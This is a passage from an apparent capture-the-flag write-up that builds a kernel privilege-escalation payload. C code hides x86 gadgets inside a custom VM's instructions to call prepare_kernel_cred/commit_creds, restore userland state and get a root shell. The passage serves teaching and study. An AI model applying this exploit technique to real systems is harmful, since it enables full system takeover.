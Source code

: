 ```c
	////// Stage 4: Load userland state to stack //////
	///////////////////////////////////////////////////
	// push rax ; push rbx ; push rcx ; push rdx
	i += sprintf(&payload[i], "mve a %llu\n", user_ss);
	i += sprintf(&payload[i], "mve b %llu\n", user_sp);
	i += sprintf(&payload[i], "mve c %llu\n", user_rflags);
	i += sprintf(&payload[i], "mve d %llu\n", user_cs);
	i += sprintf(&payload[i], "jmp %u\n", 12*12+10*15+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555d555d52515350LL);

	// push rax ; push rbx ; push rcx ; shl rcx, 32
	i += sprintf(&payload[i], "mve a %llu\n", user_rip);
	i += sprintf(&payload[i], "mve b %u\n", 0);
	// Prepare for swapgs_restore...() address in rcx
	i += sprintf(&payload[i], "mve c %u\n", 0xffffffff);
	i += sprintf(&payload[i], "mve d %u\n", 0x81c00a2f + 22);
	i += sprintf(&payload[i], "jmp %u\n", 12*13+10*20+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0x555b20e1c1485350LL);

	i += sprintf(&payload[i], "jmp %u", 0);
}
```

### Stage 5: Get shell

Now we just need to build the address in rcx and call that to get shell:

```c
char payload[0x1000];
void generate_payload()
{
	unsigned int *p = (unsigned int *)payload;
	unsigned int i = 0;

	/////////////////////////////////////////////////////
	////// Stage 2: Execute prepare_kernel_cred(0) //////
	/////////////////////////////////////////////////////

	...

	/////////////////////////////////////////////
	////// Stage 3: Execute commit_creds() //////
	/////////////////////////////////////////////

	...
	
	///////////////////////////////////////////////////
	////// Stage 4: Load userland state to stack //////
	///////////////////////////////////////////////////

	...

	////////////////////////////////
	////// Stage 5: Get shell //////
	////////////////////////////////
	// or rcx, rdx ; call rcx
	i += sprintf(&payload[i], "jmp %u\n", 12*14+10*21+2);
	i += sprintf(&payload[i], "mve d %llu\n", 0xd1ffd10948LL);

	i += sprintf(&payload[i], "jmp %u", 0);
}
```
